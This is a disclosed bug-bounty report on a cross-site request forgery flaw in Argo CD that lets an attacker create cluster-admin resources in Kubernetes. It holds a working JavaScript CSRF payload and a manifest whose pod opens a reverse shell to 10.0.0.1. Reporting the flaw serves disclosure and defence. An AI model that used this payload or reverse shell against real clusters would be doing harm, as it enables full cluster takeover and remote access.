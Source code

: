 # Argo CD CSRF leads to Kubernetes cluster compromise

## Report Details
- **Report ID**: 2326194
- **URL**: https://hackerone.com/reports/2326194
- **State**: Closed
- **Severity**: high
- **Submitted**: 2024-01-19T08:16:14.091Z
- **Disclosed**: 2024-01-29T18:03:05.777Z

## Reporter
- **Username**: tint0
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
GHSA: https://github.com/argoproj/argo-cd/security/advisories/GHSA-92mw-q256-5vwg

It's been publicly known for years that all of Argo CD API is vulnerable to Cross-Site Request Forgery (CSRF). We assume the team haven't made it a priority because of the lack of evidence to support it's a severe vulnerability.

Modern browsers implement the Lax SameSite cookie attribute to prevent CSRF, but it is not foolproof. The samesite attribute is rendered useless if the origin is on the same parent domain as the target.

We spin up a sample environment with Argo CD v2.8.2 to test this. An attacker controls contents of ​​marketing.victim.com (via Stored XSS, for example) and wants to target argocd.internal.victim.com.

The following proof of concept allows the attacker to create a pod with admin privileges on the Kubernetes cluster via Argo CD. This piece of JavaScript is injected on the ​​marketing.victim.com homepage:
```
var xhr = new XMLHttpRequest();
xhr.open('POST', 'https://argocd.internal.victim.com/api/v1/applications');
xhr.setRequestHeader('Content-Type', 'text/plain')
xhr.withCredentials = true;
xhr.send('{"apiVersion":"argoproj.io/v1alpha1","kind":"Application","metadata":{"name":"test-app1"},"spec":{"destination":{"name":"","namespace":"default","server":"https://kubernetes.default.svc"},"source":{"path":"argotest1","repoURL":"https://github.com/califio/argotest1","targetRevision":"HEAD"},"sources":[],"project":"default","syncPolicy":{"automated":{"prune":false,"selfHeal":false}}}}')
```
Where repoURL points to a repository with the yaml definition like:
```
apiVersion: v1
kind: ServiceAccount
metadata:
  name: my-sa
---
apiVersion: v1
kind: Pod
metadata:
  name: my-pod
spec:
  serviceAccountName: my-sa
  containers:
  - name: ubuntu
    image: ubuntu:latest
    command: ["bash", "-c", "bash -i >& /dev/tcp/10.0.0.1/4242 0>&1"]
---
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRole
metadata:
  name: my-role
rules:
- apiGroups: [""]
  resources: ["*"]
  verbs: ["*"]
---
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
  name: my-rolebinding
subjects:
- kind: ServiceAccount
  name: my-sa
  namespace: default
roleRef:
  kind: ClusterRole
  name: my-role
  apiGroup: rbac.authorization.k8s.io
```
Then wait. An employee logged-in to argocd.internal.victim.com, when visiting marketing.victim.com, will lead to Kubernetes cluster compromise.

This is made possible because:
- Argo CD does not respect the Content-Type header. If it did, the request would have triggered a preflight CORS request on "application/json" CT and the attack fails.
- The attacker needs zero knowledge to craft a valid json. The cluster location, project name… are available by default.

## Impact

Kubernetes cluster compromise

## Attachments
No attachments

